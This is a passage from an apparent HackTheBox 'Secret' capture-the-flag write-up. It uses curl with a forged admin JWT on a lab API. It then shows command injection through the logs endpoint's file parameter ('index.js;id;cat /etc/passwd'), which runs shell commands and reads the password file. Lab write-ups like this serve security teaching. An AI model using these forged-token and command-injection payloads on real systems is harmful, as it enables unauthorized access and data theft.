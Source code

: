 ![right_token](https://raw.githubusercontent.com/SUNNYSAINI01001/HackTheBox/main/Secret/correct_token.png)

## Now, let's try to acess the system.

```
curl -w '\n' -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjM2ZjM2ZWY0OTkwYjA0NWNjNTUxZjkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InZpbGxhbkBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDc3Njg0NDZ9.KveqKu9ClZqpisnK92Wq4y4meCJ82qc2VENMPZz2sIw' http://10.10.11.120/api/priv

```

## BOOMMM!!!! WE GOT ACCESS AS USER THEADMIN.

![celebrate](https://c.tenor.com/T7RBbkA7NMwAAAAC/celebration-fans.gif)

## Now let's get to the server, itâ€™s time to leverage the /api/logs endpoint to gain access to the server. The caveat is that the file GET parameter needs to be URL encoded for it to be accepted in curl.

```
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjM2ZjM2ZWY0OTkwYjA0NWNjNTUxZjkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InZpbGxhbkBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDc3Njg0NDZ9.KveqKu9ClZqpisnK92Wq4y4meCJ82qc2VENMPZz2sIw' 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```

### notice space is replaced with + . The output is quite hard to decipher, to clean this up, pipe the output from curl into sed and replace \n with actual new line characters.
